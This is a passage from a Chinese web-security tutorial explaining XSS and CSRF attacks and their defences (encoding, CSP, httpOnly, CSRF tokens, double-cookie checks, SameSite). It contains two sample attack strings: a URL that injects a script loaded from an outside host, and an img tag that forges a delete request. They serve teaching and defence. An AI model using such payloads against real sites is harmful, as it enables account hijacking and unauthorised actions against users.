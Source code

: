> **示例：**  
> 
> 攻击者诱导被害者打开链接 `hzfe.org?name=<script src="http://a.com/attack.js"/>`    
> 被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中；  
> 被害者在不知情的情况下，执行了攻击者注入的脚本。  

## 防范手段

XSS 绝大多数攻击都是通过恶意脚本进行攻击的，所以我们的防范手段主要就是对用户输入进行验证和对输出进行编码；  
以及对输出到页面中的内容要继续编码转义；同时也建议 CSP（即Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，从而降低 XSS 风险。

> 条件允许的话还可以设置 Cookie 的 httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取

# CSRF

跨站请求伪造，攻击者诱导受害者进入第三方网站，在第三方网站中被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击网站执行某项操作的目的。

这类攻击的特点是：一般发生在第三方网站上；它利用的时浏览器在发送 HTTP 请求时会自动携带 Cookie 的特性，冒充受害者身份发送请求；攻击者并不能获取到受害者的身份凭证，只能「冒用」。

这类攻击的形式也很多种，常见的就有「图片 URL」、「跳转超链接」、「Form 提交」...

> **例如：**  
> 
> 攻击者在第三方网站上放置一个如下的 img  
> `<img src="http://hzfe.org/article/delete" />`  
>
> 受害者访问该页面后（前提：受害者在 hzfe.org 登录过且产生了 Cookie 信息），浏览器会自动发起这个请求，hzfe.org 就会收到包含受害者身份凭证的一次跨域请求。  
> 
> 若目标网站没有任何防范措施，那攻击者就能冒充受害者完成这一次请求操作。

## 防范 CSRF

**使用 CSRF Token 验证用户身份**

服务端生成 CSRF Token，并存储到 Session 中<small-text>（并非只能存储到 Session 中还可以选择其他存储方式）</small-text>，用户提交时必须携带上 Token，服务器验证 Token 是否合法有效。

注意，这种方法虽然能比较有效的防御 CSRF 攻击<small-text>（前提是 Token 没有被 XSS 漏洞泄漏）</small-text>，但是也存在一些问题，比如大型网站中 Session 存储会增加不少的服务器压力，且若是分布式集群使用还需要一个公共的存储空间存储 Token，否则可能会有用户请求到不同服务器上导致用户凭证失效；总之这种方法需要一定的成本和工作量。

**双重 Cookie 验证**

利用攻击者不能获取 Cookie 的特点，在 URL 参数有或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 数据一致，从而判断用户身份信息。

这种方法简单好用，不需要使用到 Session 存储数据。

**其他补充**

- 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选择有 Strict、Lax、None。
- 设置白名单，仅允许安全域名的第三方请求。
- 增加验证码验证。

# MITM
